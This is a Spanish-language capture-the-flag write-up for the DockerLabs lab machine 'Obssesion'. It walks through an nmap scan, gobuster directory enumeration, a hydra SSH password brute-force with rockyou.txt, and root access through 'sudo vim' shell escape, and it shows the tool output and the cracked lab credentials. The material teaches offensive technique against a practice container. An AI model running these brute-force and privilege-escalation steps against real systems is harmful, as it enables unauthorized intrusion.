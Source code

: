 ## WRITEUP DE LA MÁQUINA OBSSESION DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 04:47 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```

Observamos que los puertos 21, 22 y 80 de los servicios ftp, ssh, http respectivamente estan abiertos, vamos a tirar por observar la dirección IP en algún buscador ya que el servicio http esta abierto. Vemos la siguiente página:
<br><br>
![foto de la pagina web](https://github.com/user-attachments/assets/63946c0e-9f99-43b0-86e5-13bdaec9e64c)
)
<br><br>
Mediante fuerza bruta con la herramienta gobuster vamos a buscar directorios ocultos en dicha página web. Ejecutamos:

```shell
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

Obtenemos:
<br>

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo los directorios ocultos del sitio web, probamos a meter en la url http://172.17.0.2/backup/ y nos muestra otra pagina con fichero llamado "Backup.txt"
<br><br>
![foto del fichero backup.txt](https://github.com/user-attachments/assets/10d75e0e-252f-40a6-a465-14bdf2f65887)
)
<br><br>
Si pinchamos en el, nos muestra una línea de texto que dice llamarse "russoski" como usuario. En el otro directorio llamada "important" encontramos un fichero .md donde hay un escrito sobre una historia de hacking, algo interesante pero nada relevante para el writeup.
<br><br>
![foto que muestra el nombre de usuario](https://github.com/user-attachments/assets/a32a3fab-06af-4d01-95d3-6cfdd6335965)
)
<br><br>
Sabiendo el nombre de usuario vamos a realizar un ataque de fuerza bruta con hydra al servicio ssh con nombre "russoski", usaremos la wordlits "rockyou.txt"
<br>
```sh
└─$ hydra -l russoski -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l russoski" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Este es el resultado:
<br>

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 11:45:10
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 50.00 tries/min, 50 tries in 00:01h, 14344349 to do in 4781:27h, 5 active
[STATUS] 35.00 tries/min, 105 tries in 00:03h, 14344294 to do in 6830:37h, 5 active

[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 11:48:32
```
Encontramos en la línea apartada (la he separado yo para que sea más legible), que la contraseña es "iloveme". Ahora toca mediante conexion ssh entrar al usuario russoski. Hay veces que se cierra la conexion con un WARNING: REMOTE  HOST IDENTIFICATION HAS CHANGED!, para solucionar solo hay que ejecutar el ssh con un sudo delante:
<br>

```
└─$ sudo ssh russoski@172.17.0.2
```
```
[sudo] password for kali: 
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:R8ZiOJN33rhfvGADBLwVQ1mPV7lSmGJACOhjdTB0wMQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@1df4a6f0847e:~$ 
```
Toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).

```
russoski@1df4a6f0847e:~$ sudo -l
Matching Defaults entries for russoski on 1df4a6f0847e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 1df4a6f0847e:
    (root) NOPASSWD: /usr/bin/vim
```
Ya sabemos que hacer, ir a la página GTFObins (https://gtfobins.github.io/#) para escalar privilegios en este caso con el binario "vim". Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
russoski@1df4a6f0847e:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!